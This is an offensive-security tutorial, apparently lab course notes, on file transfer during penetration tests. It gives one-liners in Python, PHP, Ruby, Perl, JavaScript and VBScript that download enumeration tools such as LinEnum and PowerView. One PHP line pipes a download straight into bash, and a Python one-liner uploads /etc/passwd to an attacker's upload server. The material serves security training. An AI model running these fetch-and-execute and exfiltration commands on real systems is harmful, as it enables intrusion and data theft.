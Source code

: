 # Transferring Files with Code
- [Transferring Files with Code](#transferring-files-with-code)
  - [**Python**](#python)
    - [**Python 2 - Download**](#python-2---download)
    - [**Python 3 - Download**](#python-3---download)
  - [**PHP**](#php)
    - [**PHP Download with File\_get\_contents()**](#php-download-with-file_get_contents)
    - [**PHP Download with Fopen()**](#php-download-with-fopen)
    - [**PHP Download a File and Pipe it to Bash**](#php-download-a-file-and-pipe-it-to-bash)
  - [**Other Languages**](#other-languages)
    - [**Ruby - Download a File**](#ruby---download-a-file)
    - [**Perl - Download a File**](#perl---download-a-file)
  - [**JavaScript**](#javascript)
    - [**Download a File Using JavaScript and cscript.exe**](#download-a-file-using-javascript-and-cscriptexe)
  - [**VBScript**](#vbscript)
    - [**Download a File Using VBScript and cscript.exe**](#download-a-file-using-vbscript-and-cscriptexe)
  - [**Upload Operations using Python3**](#upload-operations-using-python3)
    - [**Starting the Python uploadserver Module**](#starting-the-python-uploadserver-module)
    - [**Uploading a File Using a Python One-liner**](#uploading-a-file-using-a-python-one-liner)

It's common to find different programming languages installed on the machines we are targetting. Programming languages such as Python, PHP, Perl, and Ruby are commonly available in Linux distributions but can also be installed on Windows, although this is far less common.

We can use some Windows default applications, such as `cscript` and `mshta`, to execute JavaScript or VBScript code. JavaScript can also run on Linux hosts.

According to Wikipedia, there are around [700 programming languages](https://en.wikipedia.org/wiki/List_of_programming_languages), and we can create code in any programing language, to download, upload or execute instructions to the OS. This section will provide a few examples using common programming languages.

---

## **Python**

Python is a popular programming language. Currently, version 3 is supported, but we may find servers where Python version 2.7 still exists. `Python` can run one-liners from an operating system command line using the option `-c`. Let's see some examples:

### **Python 2 - Download**

```
th1nyunb0y@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### **Python 3 - Download**

```
th1nyunb0y@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

---

## **PHP**

`PHP` is also very prevalent and provides multiple file transfer methods. [According to W3Techs' data](https://w3techs.com/technologies/details/pl-php), PHP is used by 77.4% of all websites with a known server-side programming language. Although the information is not precise, and the number may be slightly lower, we will often encounter web services that use PHP when performing an offensive operation.

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP [file_get_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file_put_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.

### **PHP Download with File_get_contents()**

```
th1nyunb0y@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

### **PHP Download with Fopen()**

```
th1nyunb0y@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote =
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

### **PHP Download a File and Pipe it to Bash**

```
th1nyunb0y@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

---

## **Other Languages**

`Ruby` and `Perl` are other popular languages that can also be used to transfer files. These two programming languages also support running one-liners from an operating system command line using the option `-e`.

---

### **Ruby - Download a File**

```
th1nyunb0y@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

---

### **Perl - Download a File**

```
th1nyunb0y@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

---

## **JavaScript**

JavaScript is a scripting or programming language that allows you to implement complex features on web pages. Like with other programming languages, we can use it for many different things.

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

```jsx
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

### **Download a File Using JavaScript and cscript.exe**

```
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

---

## **VBScript**

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:

```
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

### **Download a File Using VBScript and cscript.exe**

```
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

---

## **Upload Operations using Python3**

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

### **Starting the Python uploadserver Module**

```
th1nyunb0y@htb[/htb]$ python3 -m uploadserver 
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### **Uploading a File Using a Python One-liner**

```
th1nyunb0y@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Let's divide this one-liner into multiple lines to understand each piece better.

```python
# To use the requests function, we need to import the module first.
import requests

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file.
r = requests.post(url,files={"files":file})
```

We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.